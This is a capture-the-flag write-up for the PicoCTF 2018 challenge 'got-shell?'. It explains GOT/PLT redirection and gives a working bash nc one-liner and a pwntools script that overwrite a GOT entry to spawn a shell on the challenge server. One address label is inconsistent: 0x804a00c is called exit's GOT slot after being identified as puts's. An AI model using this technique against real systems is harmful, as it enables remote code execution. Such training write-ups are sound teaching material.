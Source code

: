 # Write-up for shellcode challenge
# PicoCTF_2018: got-shell?

**Category:** Binary Exploitation
**Points:** 350

>Can you authenticate to this service and get the flag? Connect to it with nc 2018shell.picoctf.com 23731. Source

> # Introduction
In this challenge our goal is to overwrite the Global Offset Table and redirect program execution

If you don't know what GOT and PLT are, there is a very good explanation [here](https://systemoverlord.com/2017/03/19/got-and-plt-for-pwning.html).

In brief, most programs call some functions that are included in libraries (e.g. printf in libc library). However, we notice that
processor doesn't call instantly printf function, but instruction pointer goes first to procedure link table (printf@plt). 



There, we're performing a jump. Specifically, a jump to a function pointer. This pointer could be found in got.plt section.
If we go to the address that pointer points to we find 
the real address of printf.

It's important to mention that this procedure happens when we've already called printf at least once. If we haven't called printf 
before, we need to trigger the first lookup. You can find what happens exactly in the link above.
For the attack, what matters is that program makes a jump to an address, which location we know. (remember the pointer and the dereference our processor does first, to jump to the resulting address)

Let's disassemble the binary with gdb and see all this stuff I've told you so far.

```asm
Dump of assembler code for function main:
=> 0x08048564 <+0>:	lea    ecx,[esp+0x4]
   0x08048568 <+4>:	and    esp,0xfffffff0
   0x0804856b <+7>:	push   DWORD PTR [ecx-0x4]
   0x0804856e <+10>:	push   ebp
   0x0804856f <+11>:	mov    ebp,esp
   0x08048571 <+13>:	push   ecx
   0x08048572 <+14>:	sub    esp,0x124
   0x08048578 <+20>:	mov    eax,ecx
   0x0804857a <+22>:	mov    eax,DWORD PTR [eax+0x4]
   0x0804857d <+25>:	mov    DWORD PTR [ebp-0x11c],eax
   0x08048583 <+31>:	mov    eax,gs:0x14
   0x08048589 <+37>:	mov    DWORD PTR [ebp-0xc],eax
   0x0804858c <+40>:	xor    eax,eax
   0x0804858e <+42>:	mov    eax,ds:0x804a030
   0x08048593 <+47>:	push   0x0
   0x08048595 <+49>:	push   0x2
   0x08048597 <+51>:	push   0x0
   0x08048599 <+53>:	push   eax
   0x0804859a <+54>:	call   0x8048410 <setvbuf@plt>
   0x0804859f <+59>:	add    esp,0x10
   0x080485a2 <+62>:	sub    esp,0xc
   0x080485a5 <+65>:	push   0x80486f8
   0x080485aa <+70>:	call   0x80483d0 <puts@plt>
   0x080485af <+75>:	add    esp,0x10
   0x080485b2 <+78>:	sub    esp,0x8
   0x080485b5 <+81>:	lea    eax,[ebp-0x114]
   0x080485bb <+87>:	push   eax
   0x080485bc <+88>:	push   0x8048758
   0x080485c1 <+93>:	call   0x8048430 <__isoc99_scanf@plt>
   0x080485c6 <+98>:	add    esp,0x10
   0x080485c9 <+101>:	mov    eax,DWORD PTR [ebp-0x114]
   0x080485cf <+107>:	sub    esp,0x4
   0x080485d2 <+110>:	push   eax
   0x080485d3 <+111>:	push   0x804875c
   0x080485d8 <+116>:	lea    eax,[ebp-0x10c]
   0x080485de <+122>:	push   eax
   0x080485df <+123>:	call   0x8048420 <sprintf@plt>
   0x080485e4 <+128>:	add    esp,0x10
   0x080485e7 <+131>:	sub    esp,0xc
   0x080485ea <+134>:	lea    eax,[ebp-0x10c]
   0x080485f0 <+140>:	push   eax
   0x080485f1 <+141>:	call   0x80483d0 <puts@plt>
   0x080485f6 <+146>:	add    esp,0x10
   0x080485f9 <+149>:	sub    esp,0x8
   0x080485fc <+152>:	lea    eax,[ebp-0x110]
   0x08048602 <+158>:	push   eax
   0x08048603 <+159>:	push   0x8048758
   0x08048608 <+164>:	call   0x8048430 <__isoc99_scanf@plt>
   0x0804860d <+169>:	add    esp,0x10
   0x08048610 <+172>:	mov    edx,DWORD PTR [ebp-0x114]
   0x08048616 <+178>:	mov    eax,DWORD PTR [ebp-0x110]
   0x0804861c <+184>:	push   edx
   0x0804861d <+185>:	push   eax
   0x0804861e <+186>:	push   0x8048791
   0x08048623 <+191>:	lea    eax,[ebp-0x10c]
   0x08048629 <+197>:	push   eax
   0x0804862a <+198>:	call   0x8048420 <sprintf@plt>
   0x0804862f <+203>:	add    esp,0x10
   0x08048632 <+206>:	sub    esp,0xc
   0x08048635 <+209>:	lea    eax,[ebp-0x10c]
   0x0804863b <+215>:	push   eax
   0x0804863c <+216>:	call   0x80483d0 <puts@plt>
   0x08048641 <+221>:	add    esp,0x10
   0x08048644 <+224>:	mov    eax,DWORD PTR [ebp-0x114]
   0x0804864a <+230>:	mov    edx,eax
   0x0804864c <+232>:	mov    eax,DWORD PTR [ebp-0x110]
   0x08048652 <+238>:	mov    DWORD PTR [edx],eax
   0x08048654 <+240>:	sub    esp,0xc
   0x08048657 <+243>:	push   0x80487ac
   0x0804865c <+248>:	call   0x80483d0 <puts@plt>
   0x08048661 <+253>:	add    esp,0x10
   0x08048664 <+256>:	sub    esp,0xc
   0x08048667 <+259>:	push   0x1
   0x08048669 <+261>:	call   0x80483f0 <exit@plt>
End of assembler dump.
```

Okay, a lot of puts@plt functions. We set a breakpoint at the second puts@plt.

![Screenshot from 2019-10-12 20-38-50](https://user-images.githubusercontent.com/37578272/66705516-61691300-ed30-11e9-9315-d71b3c9caa62.png)

We can see that our program first goes to plt section and the first instruction is a jmp to an address which is pointed by 0x804a00c.
Going to 0x804a00c (inside got.plt) we find 0xf7e3a210 which is the real address of puts.

Now, what if we could change the address pointed by 0x804a00c? We could redirect our program execution, not going puts function but in some malware function or in a shellcode injected by us.
Of course, this could happen in the first call of puts. 
Just following a different procedure does not mean that we do not have a jump again to a pointer of an address. Simply the first time, the address is not puts' real address but processor in reality goes to the next instruction in plt section of puts so as to 
to trigger the first lookup. But, we don't care, again we can redirect program execution. 
Disassembling exit@plt function we get the following:
![Screenshot from 2019-10-12 20-52-04](https://user-images.githubusercontent.com/37578272/66705651-2bc52980-ed32-11e9-8f04-1d87533cd17c.png)

It's the first call so in 0x804a014 (got.plt section) we have 0x080483f6 which is not exit's real address but we return to exit@plt as I mentioned above.
But, again if we change the value inside 0x804a014 we could make great things.

Here, I want to mention to you to check about RELRO, ASLR, DEP, PIE that could make our job too difficult. Some of them in this binary are disabled
and we can hardcode the addresses and also write to GOT(--> partial RELRO)

The program kindly allows us to write an arbitrary DWORD(whatever it is, could be an address too) to an arbitrary address. 
Hmm, only 4 bytes. We can't inject a shellcode. 
Thinking some time of what to do, I searched the functions that are included in this program and look what I found:
```bash
objdump -t auth
```
![Screenshot from 2019-10-12 21-03-26](https://user-images.githubusercontent.com/37578272/66705776-c40fde00-ed33-11e9-8c7d-dee284806f5e.png)

There is a win function we couldn't see. Disassembling win function:
```asm
Dump of assembler code for function win:
   0x0804854b <+0>:	push   ebp
   0x0804854c <+1>:	mov    ebp,esp
   0x0804854e <+3>:	sub    esp,0x8
   0x08048551 <+6>:	sub    esp,0xc
   0x08048554 <+9>:	push   0x80486f0 ; address of "/bin/sh"
   0x08048559 <+14>:	call   0x80483e0 <system@plt>
   0x0804855e <+19>:	add    esp,0x10
   0x08048561 <+22>:	nop
   0x08048562 <+23>:	leave  
   0x08048563 <+24>:	ret    
End of assembler dump.
```
Ohhh win function calls system with /bin/sh argument. If we redirect our program there we will get a shell.

Consequently, when program ask us in which address to write something, we tell them to 0x804a00c ( exit@got.plt ). And what to write?

ofcourse the address of win function: 0x0804854b

That's it, lets write a script both in bash and python.
```bash
(echo 0x804a00c; echo; echo 0x804854b; cat) | nc 2018shell.picoctf.com 23731
```
Then we've got a shell and running **cat flag.txt** gives us the flag.

```python
#!/usr/bin/python
from pwn import *
from time import sleep

auth = ELF('./auth')

win_func_addr = str(hex(auth.symbols['win']))
exit_got_plt = str(hex(auth.got['exit']))
s = remote("2018shell.picoctf.com", 23731)

print 'win address = ', win_func_addr
print 'exit@got.plt addr = ', exit_got_plt
print s.recv()
s.sendline(exit_got_plt)
print s.recv()
s.sendline(win_func_addr)
s.sendline('cat flag.txt')
s.interactive()
s.close()
```





